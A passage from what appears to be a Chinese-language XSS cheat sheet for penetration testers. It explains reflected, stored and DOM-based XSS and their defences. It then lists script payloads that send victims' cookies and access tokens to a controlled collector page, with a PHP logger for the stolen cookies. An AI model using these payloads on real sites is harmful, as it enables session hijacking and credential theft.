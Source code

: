     - [其他盲注XSS工具](#其他盲注xss工具)
    - [盲注XSS端点](#盲注xss端点)
    - [小贴士](#小贴士)
- [变异XSS](#变异xss)
- [实验](#实验)
- [防御措施](#防御措施)
- [参考资料](#参考资料)

## 方法学

跨站脚本（XSS）是一种常见的Web应用安全漏洞。XSS允许攻击者将恶意代码注入网站，然后在访问该网站的任何人的浏览器中执行。这可能导致攻击者窃取敏感信息（如用户登录凭据）或执行其他恶意操作。

XSS攻击主要分为3种类型：

- **反射型XSS**：在反射型XSS攻击中，恶意代码嵌入在发送给受害者的链接中。当受害者点击链接时，代码在其浏览器中执行。例如，攻击者可以创建一个包含恶意JavaScript的链接，并通过电子邮件发送给受害者。当受害者点击该链接时，JavaScript代码在其浏览器中执行，使攻击者能够执行各种操作，例如窃取其登录凭据。

- **存储型XSS**：在存储型XSS攻击中，恶意代码存储在服务器上，每次访问易受攻击的页面时都会执行。例如，攻击者可以将恶意代码注入到博客文章的评论中。当其他用户查看该博客文章时，恶意代码在其浏览器中执行，使攻击者能够执行各种操作。

- **基于DOM的XSS**：当易受攻击的Web应用程序修改用户浏览器中的DOM（文档对象模型）时，就会发生基于DOM的XSS攻击。例如，当用户输入用于以某种方式更新页面的HTML或JavaScript代码时，就可能发生这种情况。在基于DOM的XSS攻击中，恶意代码不会发送到服务器，而是直接在用户的浏览器中执行。由于服务器没有恶意代码的任何记录，这使得检测和防止此类攻击变得困难。

为防止XSS攻击，正确验证和清理用户输入非常重要。这意味着确保所有输入都符合必要的标准，并删除任何可能危险的字符或代码。在将用户输入呈现到浏览器之前，转义其中的特殊字符也很重要，以防止浏览器将其解释为代码。

## 概念验证

利用XSS漏洞时，展示可能导致账户接管或敏感数据泄露的完整利用场景更为有效。与其简单地报告带有alert弹窗的XSS，不如尝试获取有价值的数据，如支付信息、个人身份信息（PII）、会话cookie或凭据。

### 数据抓取器

获取管理员cookie或敏感访问令牌，以下有效载荷将发送到受控页面。

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

将收集的数据写入文件。

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### CORS
